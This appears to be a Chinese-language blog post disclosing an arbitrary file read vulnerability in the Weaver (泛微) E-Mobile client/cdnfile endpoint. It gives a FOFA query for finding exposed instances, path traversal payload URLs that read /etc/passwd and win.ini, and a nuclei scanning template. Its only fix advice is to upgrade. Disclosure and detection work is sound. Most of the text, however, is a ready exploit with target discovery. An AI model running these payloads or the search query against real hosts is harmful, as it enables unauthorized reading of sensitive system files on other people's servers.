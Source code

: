 ﻿@[toc]
## 免责申明
本文章仅供学习与交流，请勿用于非法用途，均由使用者本人负责，文章作者不为此承担任何责任
## 漏洞描述
泛微E-Mobile client/cdnfile 接口存在任意文件读取漏洞，攻击者可以读取系统的敏感文件
## 搜索语法
fofa
```
app="泛微-EMobile"
```
## 漏洞复现

**windows**
payload
```
http://ip//client/cdnfile/1C/windows/win.ini?windows
```
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/1b2d8385307b4b60ae2b0800968c856d.png)
**linux**
payload
```
http://ip/client/cdnfile/C/etc/passwd?linux
```

## nuclei
```yaml
id: fanweiE-Mobile-client-cdnfile-anyfile-read

info: 
 name: 泛微E-Mobile clientcdnfile 任意文件读取漏洞
 author: xl
 description: 泛微移动管理client/cdnfile接口任意文件读取漏洞
 severity: high

requests:
  - method: GET
    path:
      - "/client/cdnfile/C/etc/passwd?linux"
      - "/client/cdnfile/1C/windows/win.ini?windows"
    matchers-condition: and
    matchers:
      - type: status
        status:
          - 200
      - type: word
        words:
          - "root"
          - "fonts"

```

## 修复建议
升级到最新版本
